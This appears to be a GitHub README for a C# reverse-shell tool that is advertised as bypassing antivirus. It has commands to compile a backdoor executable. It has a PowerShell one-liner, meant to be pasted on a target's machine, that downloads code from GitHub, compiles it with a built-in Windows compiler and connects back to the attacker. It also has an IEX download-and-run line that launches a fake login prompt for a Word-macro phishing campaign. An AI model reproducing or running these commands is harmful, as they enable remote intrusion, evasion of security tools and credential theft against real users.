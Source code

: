 # Reverse shell C# bypassing AV solutions  

## Compile code to .exe (to make a backdoor in an executable file)
To generate the executable file, compile the script "reverse_shell_to_exe.cs" like that :  
sudo apt install mono-complete  
mcs -out:backdoor.exe reverse_shell_to_exec.cs  
mono backdoor.exe  


## Live compiling via Powershell (With physical acces to the target's computer)
To get a reverse shell via a command line, copy paste the following payload directly on the target's computer   
(it will download the two files from github, compile them with the legit compiler of Windows and launch the connect back to your IP)  
  
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/reverse_shell.cs', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell


## Full scenario of remote hacking via Macro Word (phishing campaign)


 powershell.exe -ep bypass -c IEX ((New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/S-crow/reverseShell/master/Invoke-LoginPrompt.ps1’)); Invoke-LoginPrompt

